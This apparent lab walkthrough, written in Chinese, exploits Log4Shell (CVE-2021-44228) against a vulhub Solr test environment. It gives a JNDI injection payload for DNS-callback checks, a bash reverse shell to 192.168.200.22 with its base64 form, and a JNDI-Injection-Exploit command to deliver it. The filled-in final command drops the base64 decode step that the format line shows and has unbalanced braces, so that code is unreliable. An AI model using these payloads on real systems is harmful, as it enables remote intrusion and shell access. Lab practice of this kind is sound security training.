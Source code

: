 在kali中进入靶场环境

```
cd /vulhub-master/log4j/CVE-2021-44228
```

启动环境

```
docker-compose up -d
```

### 2、访问靶机

```
http://your-ip:8983
```

### 3、登录网站dns回显网站

[CEYE - Monitor service for security testing](http://ceye.io/)

根据身份标识符，构造payload，查看cecy是否返回数据。

### 4、dns回显验证

```
/solr/admin/cores?action=${jndi:ldap://xxxxxxxx.io} #ladp是协议，后的地址dns地址
```

查看cecy是否返回数据

### 5、将bash反弹shell命令编码备用

```
bash -i &gt;&amp; /dev/tcp/192.168.200.22/8899 0&gt;&amp;1
```

注意：

经过base64编码:

```
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwMC4yMi84ODk5IDA+JjE=
```

### 6、使用JNDIExploit进行漏洞利用

**将上面base64编码后的bash命令填入指定位置**

```
格式：java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar　-C 
"bash -c {echo,Base64编码后的Payload} | {base64,-d} | {bash,-i} -A "攻击机IP"

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C
"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwMC4yMi84ODk5IDA+JjE=|{bash,-i}"
-A "192.168.200.22"
```
